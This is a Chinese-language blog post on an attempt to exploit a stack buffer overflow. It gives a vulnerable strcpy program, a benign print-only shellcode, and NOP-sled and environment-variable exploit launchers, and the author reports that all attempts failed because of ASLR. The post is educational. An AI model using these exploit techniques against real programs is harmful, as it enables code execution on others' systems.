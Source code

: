 [Bug Hunter]关于stack overflow Lesson III
==========================================

### 本篇意在澄清利用stackoverflow的bug来执行shellcode的可行性
&emsp;&emsp;在前面的博客里我提到过“会给出将stackoverflow的bug和shellcode结合起来的博文”，就我目前的知识水平来说，暂时我还做不到这一点。下面澄清一下做不到的原因：    

&emsp;&emsp;请参考[Address space layout randomization (ASLR)](https://en.wikipedia.org/wiki/Address_space_layout_randomization)，也就是程序运行时，Stack的起始地址对于最高分配给进程的Virtual Memory的值来说，有一个随机的offset，而且每次不同，也很难预测。下面是一个简易的测试程序：
```cpp
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    printf("%s is at %p\n", argv[1], getenv(argv[1]));

    return 0;
}
```
&emsp;&emsp;程序启动的时候，会将所有的环境变量存到Stack上，运行本例子多次，你会发现每次的结果都不一样，而且差距非常大。如图：    

&emsp;&emsp;<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/getenv.png" />  

### 含有stackoverflow的例子程序
```cpp
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
    char buffer[100];
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);

    return 0;
}
```

### 尝试一
```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

const char shellcode[] = "\xeb\x19\x31\xc0\x31\xdb\x31\xd2\x31\xc9\xb0\x04\xb3\x01\x59\xb2\x14\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe2\xff\xff\xff\x68\x65\x6c\x6c\x6f\x20\x68\x61\x63\x6b\x69\x6e\x67\x20\x77\x6f\x72\x6c\x64\x0a";

int main(int argc, char **argv) {
    unsigned int i, *ptr, ret, offset = 377;
    char *command, *buffer;
    command = (char *)malloc(200);
    memset(command, 0, 200);

    strcpy(command, "./overflow_shellcode \'");
    buffer = command + strlen(command);

    if (argc > 1)
        offset = atoi(argv[1]);

    ret = (unsigned int)&i - offset;

    for (i = 0; i < 160; i += 4)
        *((unsigned int *)(buffer + i)) = ret;
    memset(buffer, 0x90, 60);
    memcpy(buffer + 60, shellcode, sizeof(shellcode) - 1);
    strcat(command, "\'");

    system(command);
    free(command);

    return 0;
}
```
&emsp;&emsp;显然，本例子成功执行的前提是`fork`的进程和父进程共享一个Stack Base，经测试，显然并不是共享一个Stack Base，新进程有自己随机的Stack Base。

### 尝试二
&emsp;&emsp;将SHELLCODE写到环境变量里去，然后添加非常多的`0x90`即`nop`指令，然后猜测SHEllCODE在Stack上的地址，很显然，失败。

### 尝试三
```cpp
#include <stdio.h>
#include <inttypes.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    char *env = getenv("SHELLCODE");
    uint64_t i, ret;
    ret = uint64_t(env);
    //printf("%c\n", env[0]);
    printf("%p\n", ret);
    char *buffer = (char *)malloc(160);
    for (i = 0; i < 160; i += 8)
        *((uint64_t *)(buffer + i)) = ret;

    execle("./overflow_shellcode", "overflow_shellcode", buffer, 0);
    printf("%p\n", ret);

    free(buffer);

    return 0;
}
```
&emsp;&emsp;不调用`fork`，直接调用`execl`系列函数，测试再次失败，原因很简单，`execl`系列函数会替换当前进程上下文，包括栈，天知道替换之后的栈是哪样的，应该会有一个新的栈偏移，不然本例会成功的。

### 小结
&emsp;&emsp;综上所诉，目前就博主的水平来说，搞不定这个随机栈偏移的问题，当然还是有方法的，只不过博主目前不会，毕竟菜鸡博主。 :-)    

&emsp;&emsp;**Good Luck, Have Fun!!!!!!!!**
